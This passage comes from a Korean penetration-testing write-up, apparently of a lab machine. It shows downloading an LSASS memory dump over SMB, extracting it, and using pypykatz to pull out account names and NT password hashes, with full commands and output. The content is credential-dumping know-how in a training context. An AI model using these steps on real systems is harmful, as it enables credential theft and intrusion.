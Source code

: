 - [4] `forensic` 쉐어에 접속하여 `lsass.zip` 파일을 다운로드 받는다. 
  - 이 파일은 용량이 매우 크기 때문에 "parallel_read returned NT_STATUS_IO_TIMEOUT" 오류가 발생할 수 있다. 이 때에는  `-t` 옵션을 사용하면 타임아웃을 방지할 수 있다.  

```zsh
└─# smbclient //10.129.229.17/forensic -U audit2020 -t 3600
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> cd memory_analysis
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (2519.6 KiloBytes/sec) (average 2519.6 KiloBytes/sec)
```

- [5] 다운로드 받은 `lsass.zip` 파일의 압축을 해제한다.  
- [6] 디렉토리 확인 시 `lsass.DMP` 파일이 압축파일로부터 추출된 것을 확인할 수 있다.  

```zsh
└─# 7z x lsass.zip     

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:32 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 41936098 bytes (40 MiB)

Extracting archive: lsass.zip
--
Path = lsass.zip
Type = zip
Physical Size = 41936098

Everything is Ok

Size:       143044222
Compressed: 41936098

└─# ls
bd  lsass.DMP  lsass.zip  nmap  smb

└─# file lsass.DMP 
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```

### pypykatz - Credential Dumping
- `pypykatz` 도구를 사용하여 `lsass.DMP` 파일에 저장된 크레덴셜 정보를 추출한다.  

```zsh
└─# pypykatz lsa minidump lsass.DMP | grep -i Username: | sort -u -f
INFO:pypykatz:Parsing file lsass.DMP
                Username: 
                Username: Administrator
                Username: DC01$
                Username: svc_backup
                                                                                                                            
└─# pypykatz lsa minidump lsass.DMP | grep -i NT: | sort -u -f
INFO:pypykatz:Parsing file lsass.DMP
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                NT: 9658d1d1dcd9250115e2205d9f48400d
                NT: b624dc83a27cc29da11d9bf25efea796
```
